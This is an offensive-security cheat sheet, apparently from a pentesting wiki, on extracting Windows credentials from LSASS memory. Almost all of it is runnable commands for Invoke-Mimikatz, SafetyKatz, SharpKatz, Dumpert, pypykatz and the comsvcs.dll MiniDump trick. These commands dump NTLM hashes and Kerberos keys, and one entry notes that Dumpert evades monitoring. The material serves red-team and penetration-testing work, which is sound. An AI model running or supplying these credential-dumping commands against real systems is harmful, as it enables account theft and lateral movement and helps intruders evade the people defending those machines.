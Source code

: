 {% embed url="https://github.com/gentilkiwi/mimikatz" %}

***

## Extracting Credentials from LSASS

{% hint style="info" %}
You **need admin access** on a machine.
{% endhint %}

### Mimikatz

To dump credentials (eg. NTLM hash, AES) from **LSASS** on a local machine using **Invoke-Mimikatz**, run:

```powershell
Invoke-Mimikatz -Command "sekurlsa::ekeys"
```

### SafetyKatz

SafetyKatz is a minidump-based approach combined with **PELoader** to execute Mimikatz:

```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

### SharpKatz

SharpKatz is a C# implementation of certain Mimikatz functionalities:

```powershell
SharpKatz.exe --Command ekeys
```

### Dumpert (Direct System Calls & API Unhooking)

Dumpert evades traditional monitoring by leveraging direct system calls:

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

### Pypykatz (Python-based Mimikatz Alternative)

For extracting credentials using Python:

```powershell
pypykatz.exe live lsa
```

### Comsvcs.dll for LSASS Dump

A built-in Windows DLL can be leveraged to dump LSASS memory:

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass PID> C:\Users\Public\lsass.dmp full
```
